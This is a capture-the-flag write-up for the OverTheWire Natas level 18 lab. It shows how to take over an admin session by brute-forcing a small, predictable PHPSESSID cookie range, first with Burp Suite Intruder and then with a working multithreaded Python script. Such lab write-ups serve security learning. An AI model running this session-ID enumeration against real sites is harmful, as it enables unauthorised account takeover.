 ## natas18
Let's open the source code and we see, logging in as admin wont do us good since it is considered unsafe. But we also see that `PHPSESSID` is a cookie which tells us if we logged in as a regular person or admin. Well that's our first clue. We launch BurpSuite, before forwading set an attack using Intruder which checks for `PHPSESSID` from 0 to 640(max limit). <br>
This is how we do it-<br>
1. set `username=admin` and `password=anything` and submit.
2. Forward request once, the next proxy content will show us `PHPSESSID` as 237(maybe different for you).
3. Highlist 237 and send it to Intruder. 
4. In Payloads, set payload as `Numbers` from 0 to 640.
5. In Settings, set Grep match list with suitable content from source code to land a hit if PHPSESSID is correct.
6. Wait a while.

Now you get your `PHPSESSID=`(maybe different for you) which will logs us in as admin and you got your password. <br>

## Approach 2(faster)
Use python coding for the same, with multithreading. This will take almost same time for each thread( i.e. in 1 second earlier if you were getting 1 response, now you get 6)(approx 1 seconds).<br>
So the code is-
```python
import requests
import threading

def try_session_ids(start, end):
	target = 'http://natas18.natas.labs.overthewire.org'
	auth = ('natas18','<password>')
	params = dict(username='admin', password='s3cr3t')
	cookies = dict()

	for s_id in range(start, end):
		print ("Trying with PHPSESSID = " + str(s_id))
		cookies = dict(PHPSESSID=str(s_id))
		r = requests.get(target, auth=auth, params=params, cookies=cookies)
		if "You are an admin" in r.text:
			print (r.text)
			break

threads = []
for i in range(0, 601, 100):
	thread = threading.Thread(target=try_session_ids, args=(i, i+100))
	thread.start()
	threads.append(thread)

for thread in threads:
	thread.join()
```
If you don't get a response here, try from 601 to 640 and you are done. This is really fast approach to this problem.
